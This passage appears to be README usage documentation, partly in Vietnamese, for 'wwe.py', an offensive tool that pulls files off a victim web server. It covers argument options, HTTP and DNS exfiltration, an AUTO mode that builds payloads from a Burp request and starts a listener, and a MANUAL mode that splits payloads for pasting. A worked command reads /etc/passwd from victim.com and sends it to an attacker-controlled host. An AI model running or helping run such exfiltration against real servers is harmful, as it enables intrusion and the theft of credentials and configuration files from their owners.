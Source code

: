 List of allowed tool arguments
```sh
usage: wwe.py [-h] -f FILENAME [-l LENGTH] [--dns-exf | --no-dns-exf] [--decode | --no-decode] exfiltrate_url {AUTO,MANUAL} ...

positional arguments:
  exfiltrate_url
  {AUTO,MANUAL}

options:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        the name of the file whose content we want to get
  -l LENGTH, --length LENGTH
                        each request will retrieve l-bytes in b64. Increase this param will be huge increase payload size
  --dns-exf, --no-dns-exf
                        enable/disable exfiltration over DNS (default: False)
  --decode, --no-decode
                        Inline decode to b64 in output
```

Các tham số:

- `-f FILE_TO_EXFILTRATE` : Đây là file nằm trên máy nạn nhân mà attacker muốn lấy nội dung. Ví dụ: `/etc/passwd`, `/var/www/html/config.php`.

- `--decode DECODE_URL` : Là máy chủ của attacker nơi nạn nhân sẽ gửi dữ liệu về. Ví dụ: `http://your-server.com:9999` . Công cụ sẽ khởi chạy server lắng nghe ở đây.

- `{AUTO, MANUAL}` Chế độ chạy: tự động hoặc thủ công.

1. `AUTO` : WWE sẽ tự động tạo payload, chạy listener và gửi request luôn.

> Thêm các tham số cho AUTO:

```bash
AUTO REQUEST_FILE [-u TARGET_URL] [-c CUSTOM_HEADER]
REQUEST_FILE: File chứa raw HTTP request (copy từ Burp hoặc từ traffic log).

-u TARGET_URL: (Tùy chọn) URL mục tiêu, dùng khi request không có dòng Host rõ ràng.

-c CUSTOM_HEADER: (Tùy chọn) Chèn header custom (vd: auth token).
```
2. `MANUAL` : WWE sẽ chia nhỏ payload thành từng phần, in ra console để attacker tự copy-paste vào Burp hoặc browser.

#### 💡 Ví dụ cụ thể:
`AUTO` :
```bash
python3 wwe.py -f /etc/passwd --decode http://your-ip:9999 AUTO burp_request.txt -u http://victim.com
```

Đọc file `/etc/passwd` từ server nạn nhân và gửi về máy attacker qua `http://example:9999`
